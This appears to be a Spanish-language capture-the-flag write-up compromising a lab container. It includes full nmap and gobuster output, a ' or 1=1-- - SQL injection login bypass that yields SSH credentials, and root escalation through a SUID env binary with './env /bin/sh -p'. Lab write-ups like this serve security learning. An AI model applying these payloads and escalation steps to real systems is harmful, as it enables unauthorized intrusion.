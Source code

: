### Reconocimiento inicial

Se realizó un escaneo de la dirección IP **172.17.0.2** utilizando **Nmap** para identificar servicios y puertos abiertos. 
##### Escaneo de Puertos abiertos: 

``` python
┌──(kali㉿kali)-[~]
└─$ nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-01 01:09 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.92 seconds
```
##### Versiones de servicios:

``` python
┌──(kali㉿kali)-[~]
└─$ nmap -p22,80 -sCV 172.17.0.2

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-01 01:15 -03
Nmap scan report for 172.17.0.2
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Iniciar Sesi\xC3\xB3n
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds
```


**Resultados:**
- **22/tcp** - SSH (OpenSSH 8.9p1 Ubuntu 3ubuntu0.6)    
- **80/tcp** - HTTP (Apache/2.4.52 Ubuntu)


### Reconocimiento sobre puerto 80 Web

Se utilizó **WhatWeb** y **Nmap** / **Gobuster** para obtener más información sobre el servidor web y posibles rutas ocultas.

##### Whatweb
``` python
┌──(kali㉿kali)-[~]
└─$ whatweb 172.17.0.2

http://172.17.0.2 [200 OK] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], PasswordField[password], Title[Iniciar Sesión]
```

**Resultados:**
- Servidor **Apache/2.4.52 (Ubuntu)**    
- Campo de contraseña identificado en la página de inicio de sesión

#### Enumeración de Directorios 

###### Nmap:
``` python
┌──(kali㉿kali)-[~]
└─$ nmap --script http-enum -p80 172.17.0.2
```

**Resultados:**
Sin resultados exitosos.

###### Gobuster:
``` python
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,py

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,py,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2921]
/config.php           (Status: 200) [Size: 0]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================
```

**Resultados:**
- **/index.php** (200 OK)    
- **/config.php** (200 OK)
- **/server-status** (403 Forbidden)


### Prueba de Inyección SQL (SQLi)

Ingresamos a http://172.17.0.2/index.php donde nos encontramos con el panel de login y realizamos una prueba para saber si es vulnerable a inyección SQL agregando una " ' ".

![[Pasted image 20250401020938.png]]
Tras recibir un error y confirmar que es vulnerable se procede a realizar pruebas básicas de SQLi

En el campo de usuario se ingreso ' or 1=1-- - y en contraseña cualquier cosa, se le dió submit y la inyección fue exitosa.

![[Pasted image 20250401024658.png]]
**Resultados:**
- Se identificó un usuario válido **Dylan**.
- Se obtuvo una **contraseña** tras una inyección SQL exitosa.  

![as](../../../attachments/Pastedimage20250401024728.png)



Se probó la autenticación por SSH utilizando las credenciales obtenidas, logrando acceso al sistema.

![[Screenshot from 2025-04-01 02-49-17.png]]

Una vez dentro del sistema, se realizó un reconocimiento de permisos y binarios con **SUID**.

![](../../../attachments/Screenshot-from-2025-04-01-02-50-54.png)

Se detectó que **/usr/bin/env** tenía permisos SUID, lo que permitía su explotación para escalar privilegios. 

Se utilizó el método documentado en **GTFOBins** (https://gtfobins.github.io/gtfobins/env/) para elevar privilegios a **root**:

 `./env /bin/sh -p`

Tras la ejecución, se obtuvo acceso como usuario root, logrando el compromiso total del sistema.

![[Pasted image 20250401025821.png]]

**Estado del sistema: Comprometido**
